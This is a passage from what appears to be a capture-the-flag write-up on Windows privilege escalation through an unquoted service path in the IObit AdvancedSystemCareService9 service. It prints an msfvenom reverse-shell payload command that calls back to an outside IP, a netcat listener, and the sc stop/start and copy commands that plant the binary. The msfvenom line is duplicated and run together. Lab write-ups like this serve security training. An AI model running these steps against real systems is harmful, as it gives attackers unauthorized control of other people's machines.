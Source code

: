 - Theres an unquoted service path vulnerability, that will run the first executable in the path.
- we are Bill
- Bill has permissions to write in the `\IObit\` folder.
- The “CanRestart=True” means that we can restart the service.Okay, so now we have a few dots that we can connect,

[If you don't understand what we did , check out the following explanation]

Craft `evil.exe` with name `“Advanced.exe”` — > since we are Bill and Bill has permission to write into the folder, put our `“Advanced.exe”` into the `C:\Program Files (x86)\IObit` folder — > `restart service`.

Once the execution reaches `“…\IObit\Advanced”` it will append `.exe` to `“Advanced”` and therefore, executing our evil binary.

Now Let’s create our evil binary, we’ll use msfvenom like so:

```shell     
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=1234 -e x86/shikata_ga_nai -f exe -o Advanced.exemsfvenom -p windows/shell_reverse_tcp LHOST=10.17.8.26 LPORT=1234 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
{: .nolineno }

![image](https://i.postimg.cc/tT6wSrt6/screenshot-75.png){: width='1280' height='720'}

Now upload this payload `Advanced.exe` to the victim machine using the `upload` command in meterpreter

![image](https://i.postimg.cc/4N9fGvvN/screenshot-76.png){: width='1280' height='720'}

When this binary runs, it’ll connect back to our IP.

Before we restart the service , we fire up a listener on our machine.

```shell     
nc -lvnp 1234
```
{: .nolineno }

Alright, then let’s drop to a shell in our meterpreter session by typing `“shell”` and then stop the service with `“sc stop AdvancedSystemCareService9”`

Now before startering the service again , Copy the Advanced.exe file into the IObt directory as shown below.

```shell     
copy Advanced.exe "C:\Program Files (x86)\IObit"
```
{: .nolineno }

![image](https://i.postimg.cc/1zVFk7RR/screenshot-77.png){: width='1280' height='720'}

Now restart the service using `"sc start AdvancedSystemCareService9"`

As soon as you start the service You will get a shell on our `Netcat` listener.

Now navigate to the `Administrator's` Desktop directory to get the `root` flag

